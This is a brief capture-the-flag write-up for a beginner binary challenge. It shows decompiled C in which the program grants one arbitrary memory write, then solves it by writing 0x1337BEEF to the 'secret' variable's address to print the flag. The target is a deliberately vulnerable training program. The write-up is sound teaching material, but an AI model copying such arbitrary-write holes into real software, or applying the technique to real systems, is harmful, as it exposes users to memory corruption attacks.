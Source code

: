 ### S0lv3d by H4yicl3

try to download the binary



then i analysis the code with IDA
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax@4
  int stackcookie; // ecx@4
  int address; // [sp+1Ch] [bp-34h]@1
  int value; // [sp+20h] [bp-30h]@1
  FILE *flag; // [sp+24h] [bp-2Ch]@2
  char buf; // [sp+2Bh] [bp-25h]@2
  int stackcookie_1; // [sp+4Ch] [bp-4h]@1

  stackcookie_1 = *MK_FP(__GS__, 20);
  puts("Welcome! I will grant you one arbitrary write!");
  printf("Where do you want to write to? ");
  __isoc99_scanf("%p", &address);
  printf("Okay! What do you want to write there? ");
  __isoc99_scanf("%p", &value);
  printf("Writing %p to %p...\n", value, address, argv);
  *(_DWORD *)address = value;
  puts("Value written!");
  if ( secret == 0x1337BEEF )				//<---- we need change the secret become 0x1337BEEF to have the flag
  {
    puts("Woah! You changed my secret!");
    puts("I guess this means you get a flag now...");
    flag = fopen("flag.txt", "r");
    fgets(&buf, 32, flag);
    fclose(flag);
    puts(&buf);
    exit(0);
  }
  result = puts("My secret is still safe! Sorry.");
  stackcookie = *MK_FP(__GS__, 20) ^ stackcookie_1;
  return result;
}
```

find the address of secret
double click secret variable in IDA
```
.data:0804A03C secret          dd 0DEADBEEFh           ; DATA XREF: main+9Ar
```

ok !! we run the program !! 
and type 0x0804A03C like address want to write
and type 0x1337BEEF is value 

```
./write_right 
Welcome! I will grant you one arbitrary write!
Where do you want to write to? 0x0804a03c
Okay! What do you want to write there? 0x1337beef
Writing 0x1337beef to 0x804a03c...
Value written!
Woah! You changed my secret!
I guess this means you get a flag now...
```


well done!
